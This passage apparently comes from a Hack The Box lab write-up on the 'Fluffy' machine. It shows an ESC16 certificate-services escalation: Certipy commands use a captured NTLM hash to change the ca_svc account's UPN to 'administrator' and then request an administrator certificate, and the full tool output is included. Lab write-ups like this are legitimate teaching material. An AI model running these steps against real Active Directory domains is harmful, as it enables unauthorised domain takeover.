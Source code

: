 This is a relatively new attack (May 2025) which also explains why I was not able to identify it before.

I then proceeded to use the `ca_svc` privileges to update its own UPN. I tried with the other two users as well but I was getting the error `CERTSRV_E_ENROLL_DENIED` which meants only the `ca_svc` user had the permission to enroll.

```bash
$ certipy account -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'fluffy.htb' -upn 'administrator' -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: fluffy.htb.
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

I then confirmed that the UPN was successfully updated.

```bash
$ certipy account -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -user 'ca_svc' read
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : administrator
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-07-16T16:12:54+00:00
```

Sometimes I was getting the following error:

> KRB_AP_ERR_SKEW(Clock skew too great)

So I used `sudo ntpdate fluffy.htb` to fix this, as it's something [other HTB players](https://forum.hackthebox.com/t/how-do-you-synchronize-ad-and-time/318340) have struggled with before.

I then requested the certificate and since the UPN was set to **administrator** it was exactly what I got (thanks ESC16).

```bash
$ certipy req -dc-ip '10.10.11.69' -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 16
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
